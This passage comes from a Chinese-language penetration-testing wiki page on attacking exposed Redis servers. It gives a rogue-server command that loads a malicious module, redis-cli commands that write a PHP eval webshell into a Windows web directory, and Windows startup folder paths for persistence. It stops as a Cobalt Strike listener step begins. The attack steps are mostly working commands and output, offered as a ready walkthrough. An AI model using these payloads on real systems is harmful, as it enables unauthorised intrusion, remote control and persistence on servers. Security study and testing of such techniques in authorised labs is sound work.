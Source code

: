 

```shell
python3 redis-rogue-server.py --rhost 192.168.51.146 --lhost 192.168.51.146 --exp=exp.so
```



![img](/assets/PeiQi-Wiki/img/1628608226504-a9981cc4-1dae-4c85-9468-39bd3f030305-20220415143203642.png)

![img](/assets/PeiQi-Wiki/img/1628608233667-192fed23-55a2-43a8-88df-75cc7d9d0b9b-20220415143203584.png)

## Windows 获取权限

### Webshell

<a-checkbox checked>攻击成功的前提为：需要准确的知道Web目录位置</a-checkbox></br>

<a-checkbox checked>可通过 phpinfo 或者 网站报错得知</a-checkbox></br>

![img](/assets/PeiQi-Wiki/img/1628609553023-5e320f71-cea1-4ade-ad72-f1e0f51f7f11-20220415143203567.png)

这里测试的目标路径为：`C:\phpstudy_pro\WWW`

```php
192.168.0.123:6379> config set dir C:\phpstudy_pro\WWW
OK
192.168.0.123:6379> config set dbfilename shell.php
OK
192.168.0.123:6379> set test "<?php @eval($_POST['shell'])?>"
OK
192.168.0.123:6379> save
OK
```

![img](/assets/PeiQi-Wiki/img/1628609873998-b83c9a14-4307-45fb-8c50-f46b79d85f86-20220415143203676.png)

<a-checkbox checked>成功写入木马，并可连接控制服务器</a-checkbox></br>

![img](/assets/PeiQi-Wiki/img/1628609802263-2105839f-6645-428b-82d4-bbb75b3dadb9-20220415143203681.png)

### 启动项

攻击方法与写入Linux启动项相似

<a-checkbox checked>需要高权限账户</a-checkbox></br>

<a-checkbox checked>Windows 启动项目录为:</a-checkbox></br>

<a-checkbox checked>C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/startup/</a-checkbox></br>

<a-checkbox checked>C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp</a-checkbox></br>



首先创建 CobaltStrike监听
